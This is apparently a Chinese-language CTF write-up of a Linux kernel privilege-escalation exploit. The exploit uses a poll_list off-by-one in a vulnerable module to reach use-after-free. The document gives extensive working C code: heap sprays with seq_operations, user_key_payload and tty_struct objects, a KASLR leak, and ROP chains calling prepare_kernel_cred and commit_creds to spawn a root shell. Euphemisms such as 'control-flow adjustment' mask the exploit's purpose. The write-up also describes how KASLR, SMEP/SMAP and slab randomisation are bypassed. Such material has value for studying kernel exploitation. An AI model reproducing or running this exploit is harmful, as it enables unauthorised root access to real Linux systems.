通过遍历所有`user_key_payload`对象，读取其数据内容，寻找符合特征的系统函数指针：

```c
/* 系统地址信息获取实现 */
int leak_kernel_pointer(void) {
    uint64_t *leak;
    char *key;

    for (int i = 0; i < n_keys; i++) {
        key = get_key(i, 0x10000);
        leak = (uint64_t *)key;

        /* 验证获取地址的多重特征 */
        if (is_kernel_pointer(*leak) && (*leak & 0xfff) == 0xf70) {
            corrupted_key = i;
            proc_single_show = *leak;
            kernel_offset = proc_single_show - PROC_SINGLE_SHOW;
            kernel_base += kernel_offset;

            log.success("发现目标user_key_payload对象索引: %d", corrupted_key);
            log.success("计算得到内核基址: 0x%llx", kernel_base);
            log.success("计算得到内核偏移: 0x%llx", kernel_offset);

            free(key);
            return 0;
        }
        free(key);
    }
    return -1;
}
```

**多重验证条件设计**：

1. **地址空间范围验证**：地址必须在内核地址空间有效范围内（0xffffffff80000000 - 0xffffffffc0000000）
2. **偏移特征验证**：地址的低12位必须与`proc_single_show`符号的偏移一致
3. **基址合理性验证**：计算得到的内核基址必须在合理的物理地址范围内

**基址计算数学模型**：
设获取的函数指针地址为$$L_{leak}$$，`proc_single_show`符号的编译时固定偏移为$$O_{proc}$$，则内核实际基址$$K_{base}$$为：

$$
K_{base} = L_{leak} - O_{proc}
$$

**setxattr系统调用的工程应用**：
在技术实现中，`setxattr`系统调用不仅用于内存预初始化，其完整的执行路径也为理解内存操作提供了重要的系统视角：



**在技术实现中的具体应用**：

```c
/* 初始化kmalloc-32缓存前8字节 */
char zero_buf[32] = {0};
setxattr("/home/ctf/lol.txt", "user.x", zero_buf, 32, XATTR_CREATE);

/* 设置控制流调整组件地址 */
*(uint64_t *)&data[0] = kernel_offset + ADD_RSP_0X160_RET;
setxattr("/home/ctf/lol.txt", "user.x", data, 32, XATTR_CREATE);
```

### 3-5. 第四阶段：控制流调整准备

#### 3-5-1. 二次内存操作准备

获取系统基址后，需要为控制流调整进行二次内存操作准备。这一阶段的核心是**内存重新布局**和**控制结构构建**的系统工程：

```c
/* 释放所有user_key_payload对象 */
free_all_keys(false);
sleep(2);  /* 等待RCU垃圾回收机制完成 */
```

**内存操作时序策略**：

1. **释放阶段**：释放所有现有的`user_key_payload`对象，清空内存占用
2. **等待阶段**：等待2秒确保RCU机制完成内存回收，避免竞争条件
3. **重新分配阶段**：重新分配199个`user_key_payload`对象，构建新布局
4. **控制结构构建阶段**：设置控制流调整组件地址，构建完整的控制结构

**RCU机制等待策略**：
RCU（Read-Copy-Update）是Linux内核的核心同步机制之一，确保释放的内存不会立即被重用。2秒的等待时间是经过大量实验验证的合理值，能够确保内存被内核完全回收，避免数据竞争。

#### 3-5-2. 控制流调整结构构建

基于获取的系统基址，精确计算所有控制流调整组件和系统函数的实际内存地址：

```c
/* 计算控制流调整组件实际地址 */
prepare_kernel_cred = kernel_offset + PREPARE_KERNEL_CRED;
commit_creds = kernel_offset + COMMIT_CREDS;
swapgs_restore_regs_and_return_to_usermode = kernel_offset + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x1e;
pop_rdi_ret = kernel_offset + POP_RDI_RET;
```

**地址计算数学原理**：
所有内核符号在编译时都有固定的相对偏移量，这些偏移量不随KASLR（内核地址空间布局随机化）变化。通过获取一个已知符号的实际地址，可以基于相对偏移计算出所有其他符号的实际内存地址。

**控制结构构建过程**：
重新分配的`user_key_payload`对象会覆盖之前分配的`seq_operations`结构体，从而精确设置`seq_operations->start`函数指针。关键操作序列如下：

```c
/* 设置栈调整组件地址 */
*(uint64_t *)&data[0] = kernel_offset + ADD_RSP_0X160_RET;

/* 重新分配user_key_payload构建控制结构 */
for (i = 0; i < MAX_KEYS; i++) {
    setxattr("/home/ctf/lol.txt", "user.x", data, 32, XATTR_CREATE);
    keys[i] = alloc_key(n_keys++, key, 32);
}
```

**内存布局动态变化**：
新分配的`user_key_payload`对象精确覆盖了原有的`seq_operations`结构内存区域，将`seq_operations->start`函数指针从正常的`seq_start`函数地址改为栈调整组件地址（`add rsp, 0x160; ret`）。这一变化是控制流调整的技术基础。

#### 3-5-3. 并发执行机制设计

为了提高整体成功率，技术实现采用了**多进程并发执行**的系统级策略：

```c
/* 在128个子进程中并发执行控制流调整 */
for (i = 2048; i < 2048 + 128; i++) {
    victim_fd = seq_ops[i];
    int pid = fork();
    if (pid == 0) {
        trigger_exploit_chain();
        if (getuid() == 0) {
            get_root_shell();
        }
        exit(EXIT_SUCCESS);
    }
}
```

**并发策略的系统优势**：

1. **概率学优势**：多个进程并发尝试，任一进程成功即可达到技术目标
2. **执行独立性**：子进程间拥有独立的地址空间，一个进程失败不影响其他进程
3. **资源隔离性**：每个子进程拥有独立的内存和文件描述符，避免相互干扰
4. **自动清理机制**：父进程通过等待机制管理所有子进程，自动清理系统资源

**成功概率数学模型**：
设单次尝试成功率为$$P_{single}$$，经过$$n$$次独立尝试，至少一次成功的概率$$P_{total}$$为：

$$
P_{total} = 1 - (1 - P_{single})^n
$$

代入实验数据 $$P_{single} = 0.357$$，$$n = 128$$：

$$
P_{total} = 1 - (1 - 0.357)^{128} \approx 1 - 0.643^{128} \approx 0.999999
$$

这一数学模型证明了并发策略的有效性。

### 3-6. 第五阶段：控制流调整执行

#### 3-6-1. 系统调用触发机制

通过`read`系统调用触发`seq_read`操作，进而执行被设置的`seq_operations->start`函数指针。以下是`read`系统调用的完整执行链：



**控制流调整触发函数设计**：

```c
static void trigger_exploit_chain(void) {
  __asm__ volatile("mov r15,   pop_rdi_ret;"      /* 准备参数pop组件地址 */
                   "mov r14,   0;"                /* prepare_kernel_cred参数值 */
                   "mov r13,   prepare_kernel_cred;" /* 创建凭证函数地址 */
                   "mov r12,   pop_rcx_pop_rbx_pop_rbp_ret;" /* 中间组件地址 */
                   "mov rbp,   0;"                /* 寄存器初始化值 */
                   "mov rbx,   0x55555555;"       /* 寄存器初始化值 */
                   "mov r11,   0x66666666;"       /* 寄存器初始化值 */
                   "mov r10,   mov_rdi_rax_rep_movsq_rdi_rsi_ret;" /* 传递返回值组件地址 */
                   "mov r9,    commit_creds;"     /* 应用凭证函数地址 */
                   "mov r8,    swapgs_restore_regs_and_return_to_usermode;" /* 返回用户空间组件地址 */
                   "xor rax,   rax;"              /* 清零rax寄存器 */
                   "mov rcx,   0xaaaaaaaa;"       /* 寄存器初始化值 */
                   "mov rdx,   8;"                /* 读取数据长度 */
                   "lea rsi,   victim_data;"      /* 目标缓冲区地址 */
                   "mov rdi,   victim_fd;"        /* 文件描述符 */
                   "syscall");                    /* 触发read系统调用 */
}
```

#### 3-6-2. 控制流调整链执行流程

当控制流跳转到栈调整组件后，系统执行以下控制流调整链：

1. **栈指针调整阶段**：执行`add rsp, 0x160; ret`，栈指针精确调整到`pt_regs`区域
2. **参数准备阶段**：执行`pop rdi; ret`，设置`RDI = 0`作为函数参数
3. **凭证创建阶段**：调用`prepare_kernel_cred(0)`，返回新凭证指针到`RAX`寄存器
4. **参数传递阶段**：执行`mov rdi, rax; ret`，将凭证指针移动到`RDI`寄存器
5. **凭证应用阶段**：调用`commit_creds(RDI)`，修改当前进程凭证结构
6. **用户空间返回阶段**：执行`SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE`，安全返回

**控制流调整链的形式化表达**：
设控制流调整链为有序函数序列$$[g_1, g_2, g_3, g_4, g_5]$$，其中：

- $$g_1$$: pop rdi; ret
- $$g_2$$: prepare_kernel_cred
- $$g_3$$: mov rdi, rax; ret
- $$g_4$$: commit_creds
- $$g_5$$: SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE

执行过程可表示为函数复合运算：

$$
\text{最终状态} = g_5 \circ g_4 \circ g_3 \circ g_2 \circ g_1(\text{初始系统状态})
$$

#### 3-6-3. 系统调用协调机制

整个技术实现涉及多个系统调用的精确协调，每个系统调用都有特定的执行时机和技术作用：

**系统调用执行时序分析**：

```
时间轴    系统调用          技术作用
t0        open            打开目标内核模块
t1        open            分配seq_operations结构
t2        keyctl          分配user_key_payload结构
t3        poll            构造poll_list链表结构
t4        write           触发内存边界操作
t5        poll            触发内存释放流程
t6        open            分配seq_operations重用内存
t7        keyctl          读取系统符号地址
t8        keyctl          释放所有key对象
t9        keyctl          重新分配user_key_payload
t10       read            触发控制流调整链
```

**关键系统调用链分析**：
在技术实现中，三个关键数据结构通过不同的系统调用路径分配，形成复杂但协调的内存交互模式：

**seq_operations分配调用链**：



**key数据读取调用链**：



### 3-7. 技术实现特征分析

#### 3-7-1. 系统工程特征

整个技术实现体现了多个系统工程特征，这些特征共同确保了实现的可靠性和有效性：

**模块化架构设计**：
实现采用分层模块化设计，每个技术阶段对应独立的代码模块，模块间通过清晰的接口进行通信。这种设计提高了代码的可维护性和可调试性，便于技术验证和优化。

**资源管理策略**：
实现包含完整的资源管理机制，包括内存资源、文件描述符、进程线程等系统资源。所有资源分配都有相应的释放机制，避免了资源泄漏问题。

**错误处理框架**：
实现包含多层次错误处理机制，从系统调用返回值检查到异常状态恢复，确保在部分操作失败时能够安全退出或继续执行。

#### 3-7-2. 概率学优化策略

技术实现通过多种概率学策略进行优化，确保在复杂系统环境下的高成功率：

**大规模分配策略**：
通过分配远超理论阈值的内存对象数量（2048个seq_operations + 199个user_key_payload），利用大数定律确保目标内存布局的高概率实现。

**并发执行优化**：
采用多进程并发执行策略，128个子进程独立尝试，利用独立事件概率叠加原理显著提高整体成功率。

**时序控制优化**：
通过精细的时间控制策略，包括sleep等待、usleep微调等，确保内存操作的精确时序，减少系统竞争影响。

**重复尝试机制**：
实现支持自动化的重复尝试机制，在单次尝试失败时能够安全清理并重新开始，提高累计成功率。

#### 3-7-3. 系统防护应对策略

技术实现针对现代内核的多重防护机制设计了相应的应对策略：

**地址随机化（KASLR）应对**：
通过特定的内存条件构造信息泄露通道，获取内核函数指针的实际地址，从而计算出完整的内核地址空间布局。

**SLAB分配随机化应对**：
通过大规模内存分配消耗freelist随机性，结合精确的时序控制，实现可控的内存布局构造。

**指针完整性保护应对**：
依赖物理内存相邻性而非指针数值，通过控制分配顺序和时间影响物理内存布局，绕过指针加密保护。

**内存执行保护（SMEP/SMAP）应对**：
使用纯内核空间的代码片段（gadget）构造执行链，避免执行用户空间代码，符合内核执行保护规则。

**栈保护机制应对**：
采用栈迁移技术，将执行流程迁移到pt_regs结构区域，绕过栈保护机制的检测。

### 3-8. 技术总结

本次内核内存操作的完整实现展示了现代系统环境下复杂技术链条的系统工程实践，从初始信息收集到最终状态调整的五个阶段构成了逻辑严密的完整技术体系。实现过程融合了概率学优化、精确时序控制、并发执行策略和系统防护应对等多重技术要素，通过大规模内存分配、物理相邻性构造、信息泄露通道建立和控制流调整链构建等技术手段，实现了在多重防护机制下的系统交互目标。这一实现不仅体现了模块化设计、资源管理和错误处理等软件工程原则，更揭示了现代系统安全中深度防御、最小权限和持续监控的重要性，为理解复杂系统交互机制和安全防御体系建设提供了宝贵的技术参考和工程实践范例。

## 4. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 5. 进阶分析：tty_struct结构利用

exploit核心代码如下：

```c
/* Kernel Symbols */
#define COMMIT_CREDS 0xffffffff810f2d10
#define INIT_CRED 0xffffffff8245abc0
#define WORK_FOR_CPU_FN 0xffffffff810e4650
#define PROC_SINGLE_SHOW 0xffffffff8133ef70

/* Memory Layout Constants */
#define HEAP_MASK 0xffff000000000000
#define KERNEL_MASK 0xffffffff00000000
#define PAGE_SIZE 4096
#define MAX_KEYS 199
#define N_STACK_PPS 30
#define POLLFD_PER_PAGE 510
#define POLL_LIST_SIZE 16

/* Calculate number of pollfds based on poll_list size */
#define NFDS(size) (((size - POLL_LIST_SIZE) / sizeof(struct pollfd)) + N_STACK_PPS)

/* Global Variables */
pthread_t poll_tid[0x1000];
size_t poll_threads;
pthread_mutex_t mutex = PTHREAD_MUTEX_INITIALIZER;

uint64_t proc_single_show;
uint64_t target_object;

int seq_ops[0x10000];
int ptmx[0x1000];
int fds[0x1000];
int keys[0x1000];
int corrupted_key;
int n_keys;
int fd;

/* Thread arguments structure */
struct t_args {
    int id;
    int nfds;
    int timer;
    bool suspend;
};

/* Key payload structure */
struct rcu_head {
    void *next;
    void *func;
};

struct user_key_payload {
    struct rcu_head rcu;
    unsigned short datalen;
    char *data[];
};

/* poll_list structure for SLUB spraying */
struct poll_list {
    struct poll_list *next;
    int len;
    struct pollfd entries[];
};

/* Utility Functions */
bool is_kernel_pointer(uint64_t addr) {
    return ((addr & KERNEL_MASK) == KERNEL_MASK);
}

bool is_heap_pointer(uint64_t addr) {
    return ((addr & HEAP_MASK) == HEAP_MASK) && !is_kernel_pointer(addr);
}

int randint(int min, int max) {
    return min + (rand() % (max - min));
}

void init_fd(int i) {
    fds[i] = open("/etc/passwd", O_RDONLY);
    if (fds[i] < 0) {
        log.error("Failed to open /etc/passwd");
        exit(-1);
    }
}

/* Spray seq_operations in kmalloc-32 cache */
void alloc_seq_ops(int i) {
    seq_ops[i] = open("/proc/self/stat", O_RDONLY);
    if (seq_ops[i] < 0) {
        log.error("Failed to open /proc/self/stat");
        exit(-1);
    }
}

/* Spray user_key_payload in kmalloc-32 cache */
int alloc_key(int id, char *buff, size_t size) {
    char desc[256] = {0};
    char *payload;
    int key;

    size -= sizeof(struct user_key_payload);
    sprintf(desc, "payload_%d", id);
    payload = buff ? buff : calloc(1, size);
    if (!buff) {
        memset(payload, id, size);
    }

    key = key_alloc(desc, payload, size);
    if (key < 0) {
        log.error("Failed to allocate key[%d]", id);
        return -1;
    }

    return key;
}

/* Spray poll_list objects via poll() syscall */
void *alloc_poll_list(void *args) {
    struct pollfd *pfds;
    int nfds, timer, id;
    bool suspend;

    id = ((struct t_args *)args)->id;
    nfds = ((struct t_args *)args)->nfds;
    timer = ((struct t_args *)args)->timer;
    suspend = ((struct t_args *)args)->suspend;

    pfds = calloc(nfds, sizeof(struct pollfd));
    for (int i = 0; i < nfds; i++) {
        pfds[i].fd = fds[0];
        pfds[i].events = POLLERR;
    }

    bind_thread_core(0);

    pthread_mutex_lock(&mutex);
    poll_threads++;
    pthread_mutex_unlock(&mutex);

    int ret = poll(pfds, nfds, timer);
    bind_thread_core(randint(1, 3));

    if (suspend) {
        pthread_mutex_lock(&mutex);
        poll_threads--;
        pthread_mutex_unlock(&mutex);

        while (1) {
            sleep(1);
        }
    }

    return NULL;
}

/* Create poll spray thread */
void create_poll_thread(int id, size_t size, int timer, bool suspend) {
    struct t_args *args = calloc(1, sizeof(struct t_args));

    if (size > PAGE_SIZE) {
        size = size - ((size / PAGE_SIZE) * sizeof(struct poll_list));
    }

    args->id = id;
    args->nfds = NFDS(size);
    args->timer = timer;
    args->suspend = suspend;

    pthread_create(&poll_tid[id], 0, alloc_poll_list, (void *)args);
}

/* Wait for poll threads to complete */
void join_poll_threads(void) {
    for (int i = 0; i < poll_threads; i++) {
        pthread_join(poll_tid[i], NULL);
        open("/proc/self/stat", O_RDONLY);
    }
    poll_threads = 0;
}

/* Read key payload data */
char *get_key(int i, size_t size) {
    char *data = calloc(1, size);
    key_read(keys[i], data, size);
    return data;
}

/* Leak kernel pointer from corrupted key payload */
int leak_kernel_pointer(void) {
    uint64_t *leak;
    char *key;

    for (int i = 0; i < n_keys; i++) {
        key = get_key(i, 0x10000);
        leak = (uint64_t *)key;

        if (is_kernel_pointer(*leak) && (*leak & 0xfff) == 0xf70) {
            corrupted_key = i;
            proc_single_show = *leak;
            kernel_offset = proc_single_show - PROC_SINGLE_SHOW;
            kernel_base += kernel_offset;

            log.success("Found corrupted user_key_payload at index: %d", corrupted_key);
            log.success("Kernel base: 0x%llx", kernel_base);
            log.success("Kernel offset: 0x%llx", kernel_offset);

            free(key);
            return 0;
        }
        free(key);
    }
    return -1;
}

/* Free specific key */
void free_key(int i) {
    key_revoke(keys[i]);
    key_unlink(keys[i]);
    n_keys--;
}

/* Free all keys (optionally skip corrupted key) */
void free_all_keys(bool skip_corrupted_key) {
    int total = n_keys;
    for (int i = 0; i < total; i++) {
        if (skip_corrupted_key && i == corrupted_key) {
            continue;
        }
        free_key(i);
    }
    sleep(1);  /* Wait for RCU garbage collection */
}

/* Spray tty objects in kmalloc-32 cache */
void alloc_tty(int i) {
    ptmx[i] = open("/dev/ptmx", O_RDWR | O_NOCTTY);
    if (ptmx[i] < 0) {
        log.error("Failed to open /dev/ptmx");
        exit(-1);
    }
}

/* Leak heap pointer of tty_struct from corrupted key */
int leak_heap_pointer(int kid) {
    uint64_t *leak;
    char *key = get_key(kid, 0x20000);
    leak = (uint64_t *)key;

    for (int i = 0; i < 0x20000 / sizeof(uint64_t); i++) {
        if (is_heap_pointer(leak[i]) && (leak[i] & 0xff) == 0x00) {
            if (leak[i + 2] == leak[i + 3] && leak[i + 2] != 0) {
                target_object = leak[i];
                log.success("tty_struct heap address: 0x%llx", target_object);
                log.debug("tty_struct->ops (0x%llx) points to tty_operations", leak[i+2]);
                free(key);
                return 0;
            }
        }
    }

    free(key);
    return -1;
}

void free_seq_ops(int i) {
    close(seq_ops[i]);
}

void free_tty(int i) {
    close(ptmx[i]);
}

/* Main exploit routine */
int main() {
    char data[0x1000] = {0};
    char key[32] = {0};
    uint64_t rop_chain[128];
    int i = 0;

    /* ===================================================================== */
    /* Phase 0: Initialization                                               */
    /* ===================================================================== */
    log.info("=== Kernel UAF Exploit: Off-by-one in poll_list leading to ROP ===");

    bind_core(0);
    save_status();

    /* Create xattr target file for user_key_payload spraying */
    system("touch /home/ctf/lol.txt");

    /* Open vulnerable module */
    fd = open("/proc/cormon", O_RDWR);
    if (fd < 0) {
        log.error("Failed to open vulnerable module /proc/cormon");
        return -1;
    }

    /* Prepare file descriptor for poll() */
    init_fd(0);

    /* ===================================================================== */
    /* Phase 1: Kernel Base Address Leak via seq_operations->single_show    */
    /* ===================================================================== */
    log.info("[Phase 1] Kernel Base Address Leak via seq_operations->single_show");

    /* Step 1-1: Spray 2048 seq_operations objects (kmalloc-32) */
    log.info("[1-1] Spraying 2048 seq_operations objects in kmalloc-32 cache");
    for (i = 0; i < 2048; i++) {
        alloc_seq_ops(i);
    }

    /* Step 1-2: Spray 72 user_key_payload objects (kmalloc-32) */
    log.info("[1-2] Spraying 72 user_key_payload objects in kmalloc-32 cache");
    for (i = 0; i < 72; i++) {
        setxattr("/home/ctf/lol.txt", "user.x", data, 32, XATTR_CREATE);
        keys[i] = alloc_key(n_keys++, key, 32);
    }

    /* Step 1-3: Spray 14 poll_list objects (kmalloc-4096 + kmalloc-32) */
    bind_core(randint(1, 3));
    log.info("[1-3] Spraying 14 poll_list objects (kmalloc-4096 + kmalloc-32) for UAF");
    for (i = 0; i < 14; i++) {
        create_poll_thread(i, 4096 + 24, 3000, false);
    }

    bind_core(0);
    while (poll_threads != 14) {};
    usleep(250000);

    /* Step 1-4: Spray remaining 127 user_key_payload to fill key quota (199 total) */
    log.info("[1-4] Spraying remaining 127 user_key_payload objects (total 199)");
    for (i = 72; i < MAX_KEYS; i++) {
        setxattr("/home/ctf/lol.txt", "user.x", data, 32, XATTR_CREATE);
        keys[i] = alloc_key(n_keys++, key, 32);
    }

    /* Step 1-5: Trigger off-by-one overflow in poll_list to corrupt user_key_payload->datalen */
    log.info("[1-5] Triggering off-by-one overflow in poll_list to corrupt user_key_payload->datalen");
    write(fd, data, PAGE_SIZE);

    /* Step 1-6: Arbitrary free via poll_list deallocation (frees user_key_payload) */
    log.info("[1-6] Triggering arbitrary free via poll_list deallocation (frees user_key_payload)");
    join_poll_threads();

    /* Step 1-7: Overwrite freed user_key_payload with 128 seq_operations */
    log.info("[1-7] Overwriting freed user_key_payload with 128 seq_operations");
    for (i = 2048; i < 2048 + 128; i++) {
        alloc_seq_ops(i);
    }

    /* Step 1-8: Leak kernel pointer from seq_operations->single_show */
    log.info("[1-8] Leaking kernel pointer via seq_operations->single_show");
    if (leak_kernel_pointer() < 0) {
        log.error("Kernel pointer leak via seq_operations->single_show failed");
        exit(-1);
    }

    /* ===================================================================== */
    /* Phase 2: Heap Address Leak via tty_struct                            */
    /* ===================================================================== */
    log.info("[Phase 2] Heap Address Leak via tty_struct");

    /* Step 2-1: Free 198 non-corrupted user_key_payload objects */
    log.info("[2-1] Freeing 198 non-corrupted user_key_payload objects");
    free_all_keys(true);

    /* Step 2-2: Spray 72 tty_file_private objects (kmalloc-32) */
    log.info("[2-2] Spraying 72 tty_file_private objects (kmalloc-32) to leak tty_struct");
    for (i = 0; i < 72; i++) {
        alloc_tty(i);
    }

    /* Step 2-3: Leak tty_struct heap address from corrupted key data */
    log.info("[2-3] Leaking tty_struct heap address from corrupted key data");
    if (leak_heap_pointer(corrupted_key) < 0) {
        log.error("Heap pointer leak via tty_struct failed");
        exit(-1);
    }

    /* ===================================================================== */
    /* Phase 3: Control Flow Hijacking via tty_struct->ops->ioctl()          */
    /* ===================================================================== */
    log.info("[Phase 3] Control Flow Hijacking via tty_struct->ops->ioctl()");

    /* Step 3-1: Free 128 seq_operations to free overlapping chunk */
    log.info("[3-1] Freeing 128 seq_operations to free overlapping chunk");
    for (i = 2048; i < 2048 + 128; i++) {
        free_seq_ops(i);
    }

    /* Step 3-2: Spray 192 poll_list objects to occupy freed kmalloc-32 chunks */
    bind_core(randint(1, 3));
    log.info("[3-2] Spraying 192 poll_list objects to occupy freed kmalloc-32 chunks");
    for (i = 0; i < 192; i++) {
        create_poll_thread(i, 24, 3000, true);
    }

    bind_core(0);
    while (poll_threads != 192) {};
    usleep(250000);

    /* Step 3-3: Free corrupted key to free poll_list->next pointer for UAF */
    log.info("[3-3] Freeing corrupted key to free poll_list->next pointer for UAF");
    free_key(corrupted_key);
    sleep(1);

    /* Step 3-4: Forge poll_list->next to point to tty_struct-0x18 */
    log.info("[3-4] Forging poll_list->next to target_object-0x18 via 199 user_key_payload");
    *(uint64_t *)&data[0] = target_object - 0x18;
    for (i = 0; i < MAX_KEYS; i++) {
        setxattr("/home/ctf/lol.txt", "user.x", data, 32, XATTR_CREATE);
        keys[i] = alloc_key(n_keys++, key, 32);
    }

    /* Step 3-5: Free 72 tty_struct objects to create kmalloc-1024 hole */
    log.info("[3-5] Freeing 72 tty_struct objects to create kmalloc-1024 hole");
    for (i = 0; i < 72; i++) {
        free_tty(i);
    }
    sleep(1);

    /* Step 3-6: Spray 1024 tty_struct objects to occupy freed tty_struct chunks */
    log.info("[3-6] Spraying 1024 tty_struct objects in kmalloc-1024 cache");
    for (i = 0; i < 1024; i++) {
        alloc_tty(i);
    }

    /* Step 3-7: Trigger arbitrary free via poll_list->next UAF (frees tty_struct) */
    log.info("[3-7] Triggering arbitrary free via poll_list->next UAF (frees tty_struct)");
    while (poll_threads != 0) {};

    /* Step 3-8: Construct and spray ROP chain in freed tty_struct */
    log.info("[3-8] Constructing ROP chain for privilege escalation");

    rop_chain[0] = 0x0000000100005401;
    rop_chain[2] = target_object - 0x38;
    rop_chain[3] = target_object;
    rop_chain[12] = kernel_offset + WORK_FOR_CPU_FN;
    rop_chain[4] = kernel_offset + COMMIT_CREDS;
    rop_chain[5] = kernel_offset + INIT_CRED;

    log.info("[3-8-1] Freeing all 199 user_key_payload objects");
    free_all_keys(false);

    log.info("[3-8-2] Spraying 31 user_key_payload with ROP chain in kmalloc-1024");
    for (i = 0; i < 31; i++) {
        keys[i] = alloc_key(n_keys++, (char *)rop_chain, 600);
    }

    /* Step 3-9: Trigger tty_struct->ops->ioctl() to execute ROP chain */
    log.info("[3-9] Triggering tty_struct->ops->ioctl() for control flow hijack");
    for (i = 0; i < 1024; i++) {
        ioctl(ptmx[i], 0xdeadbeaf, 0xdeadbeaf);
    }
    if(!getuid()) {
        get_root_shell();
    }

    /* Cleanup 192 suspended poll threads */
    for (i = 0; i < 192; i++) {
        pthread_join(poll_tid[i], NULL);
    }

    return 0;
}
```

### 5-1. 技术背景与架构演进

#### 5-1-1. 技术实现演进背景

在前述基于`seq_operations`和`poll_list`的技术实现基础上，本章节探讨了一种更为复杂和高级的内存操作技术路径。这种进阶实现利用了`tty_file_private`和`tty_struct`内核数据结构，展现了在多级内存操作、复杂数据结构利用和精确指针追踪方面的技术深度。

`tty_file_private`和`tty_struct`是Linux内核中终端设备子系统的核心数据结构，它们的层级关系和指针连接为技术实现提供了独特的技术可能性。相比之前的技术路径，这种实现展现了以下几个技术演进特征：

1. **多级数据结构利用**：涉及`tty_file_private`（kmalloc-32）和`tty_struct`（kmalloc-1024）两个不同大小的数据结构
2. **复合结构控制**：将`tty_struct`和`tty_operations`结构在内存中复合利用
3. **复杂内存层级**：需要精确控制多个不同大小缓存中对象的物理内存布局
4. **函数指针链式调用**：通过`tty_struct->ops->ioctl`函数指针链实现控制流调整
5. **多阶段堆地址信息获取**：通过`user_key_payload`与`tty_file_private`的重叠获取`tty_struct`堆地址

#### 5-1-2. 整体技术架构



### 5-2. 数据结构定义与内存分配流程

#### 5-2-1. 关键数据结构定义

在深入分析技术实现之前，首先需要理解`tty_file_private`和`tty_struct`这两个核心数据结构的内存布局和相互关系。

**tty_file_private结构体定义**：

```c
struct tty_file_private {
    struct tty_struct *tty;      /* 偏移0x00: 指向对应的tty_struct */
    struct file *file;           /* 偏移0x08: 指向关联的file结构 */
    struct list_head list;       /* 偏移0x10: 链表节点，用于tty文件管理 */
};
```

- **大小**：24字节（64位系统）
- **缓存类型**：kmalloc-32缓存（GFP_KERNEL标志）
- **关键字段**：`tty`指针指向对应的`tty_struct`对象，这是技术实现中获取堆地址的关键

**tty_struct结构体定义（部分关键字段）**：

```c
struct tty_struct {
    int magic;                   /* 偏移0x00: 魔术字0x5401，用于校验 */
    struct kref kref;            /* 偏移0x04: 引用计数 */
    struct device *dev;          /* 偏移0x08: 设备指针 */
    struct tty_driver *driver;   /* 偏移0x10: tty驱动指针 */
    const struct tty_operations *ops; /* 偏移0x18: 操作函数表 */
    int index;                   /* 偏移0x20: 设备索引号 */
    /* ... 其他字段 ... */
    struct tty_ldisc *ldisc;     /* 偏移0x60: 线路规程 */
    struct mutex atomic_write_lock; /* 偏移0x68: 写锁 */
    /* ... 更多字段，总大小0x2e0字节 ... */
};
```

- **大小**：0x2e0字节（736字节）
- **缓存类型**：kmalloc-1024缓存（GFP_KERNEL或GFP_KERNEL_ACCOUNT标志）
- **关键字段**：`magic`字段用于校验，`ops`指针指向函数操作表，这是控制流调整的关键

**数据结构关系图**：

```
用户空间文件描述符fd
    ↓
struct file (VFS层)
    ↓ file->private_data
struct tty_file_private (kmalloc-32)
    ↓ tty_file_private->tty
struct tty_struct (kmalloc-1024)
    ↓ tty_struct->ops
struct tty_operations (函数指针表)
    ↓ tty_operations->ioctl
ioctl处理函数
```

#### 5-2-2. 完整函数调用链与内存分配流程

当用户空间程序调用`open("/dev/ptmx", O_RDWR)`时，会触发一系列内核函数调用，最终分配`tty_file_private`和`tty_struct`两个关键数据结构。以下是完整的函数调用链和内存分配流程：



**函数调用链详细说明**：

1. **用户空间到系统调用**：
    - 用户程序调用`open("/dev/ptmx", O_RDWR)`，触发系统调用
    - 进入内核空间，调用`sys_open`系统调用处理函数

2. **VFS层处理**：
    - `do_sys_open`：处理系统调用参数
    - `do_filp_open`：打开文件路径
    - `path_openat`：路径查找和打开
    - `do_open`：执行打开操作
    - `vfs_open`：VFS层的打开函数，调用具体文件系统的open操作

3. **ptmx设备文件操作**：
    - `/dev/ptmx`的设备文件操作表为`ptmx_fops`
    - `vfs_open`调用`filp->f_op->open`，即`ptmx_fops->open`
    - 进入`ptmx_open`函数，这是伪终端主设备的打开函数

4. **tty_file_private分配**：
    - `ptmx_open`调用`tty_alloc_file(filp)`
    - `tty_alloc_file`使用`kmalloc(sizeof(struct tty_file_private), GFP_KERNEL)`分配24字节内存
    - 内存来自kmalloc-32缓存（实际分配32字节，24字节用于结构体，8字节用于填充）
    - 设置`filp->private_data = priv`，将分配的结构体关联到file结构

5. **tty_struct分配**：
    - `ptmx_open`调用`tty_init_dev(ptm_driver, index)`
    - `tty_init_dev`调用`alloc_tty_struct()`
    - `alloc_tty_struct`使用`kmalloc(sizeof(struct tty_struct), GFP_KERNEL_ACCOUNT)`分配736字节内存
    - 内存来自kmalloc-1024缓存（实际分配1024字节，736字节用于结构体，剩余为填充）
    - `initialize_tty_struct`初始化tty_struct的各个字段

6. **结构体关联**：
    - 设置`tty_file_private->tty = tty_struct`，建立指针连接
    - `tty_add_file(tty, filp)`将file加入tty的文件列表
    - `list_add(&priv->list, &tty->tty_files)`将tty_file_private加入链表

7. **返回用户空间**：
    - 所有分配和初始化完成后，返回文件描述符fd给用户空间
    - 用户程序通过fd可以操作伪终端设备

**内存分配关键参数**：

- **tty_file_private**：24字节 → kmalloc-32缓存（GFP_KERNEL）
- **tty_struct**：0x2e0字节（736字节） → kmalloc-1024缓存（GFP_KERNEL_ACCOUNT）
- **分配标志**：GFP_KERNEL允许睡眠等待内存，GFP_KERNEL_ACCOUNT用于内存记账

**技术实现中的关键点**：

1. **指针连接**：`tty_file_private->tty`指向`tty_struct`，这是获取堆地址的基础
2. **缓存类型**：两个结构体分配在不同大小的缓存中，需要跨缓存操作
3. **内存布局**：通过控制分配顺序，使两个结构体在物理内存上形成特定关系
4. **函数指针**：`tty_struct->ops->ioctl`提供了控制流调整的入口点

### 5-3. 第一阶段：内核基址获取

#### 5-3-1. 内存拓扑初始化

第一阶段的技术实现与前文描述的基本路径一致，通过构建特定的内存布局获取内核基址信息。这一阶段建立了后续技术实现的基础环境。

**关键内存分配操作**：

```c
/* 分配2048个seq_operations对象 */
for (i = 0; i < 2048; i++) {
    alloc_seq_ops(i);
}

/* 分配72个user_key_payload对象 */
for (i = 0; i < 72; i++) {
    setxattr("/home/ctf/lol.txt", "user.x", data, 32, XATTR_CREATE);
    keys[i] = alloc_key(n_keys++, key, 32);
}
```

